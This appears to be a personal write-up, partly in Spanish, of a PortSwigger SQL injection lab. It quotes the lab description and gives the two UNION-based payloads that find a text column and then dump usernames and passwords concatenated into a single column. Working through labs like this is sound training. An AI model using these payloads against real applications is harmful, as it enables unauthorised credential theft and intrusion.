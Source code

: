 # 4 - UNION attack, retrieving multiple values in a single column

> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
>  The database contains a different table called `users`, with columns called `username` and `password`.
>
>  To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

* Determinamos el numero de columnas que responden text data. Son dos obtenidas con `'+UNION+SELECT+NULL,'abc'--`
* Luego hacemos el siguiente payload : 

```text
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

![](../../../.gitbook/assets/imagen%20%28648%29.png)

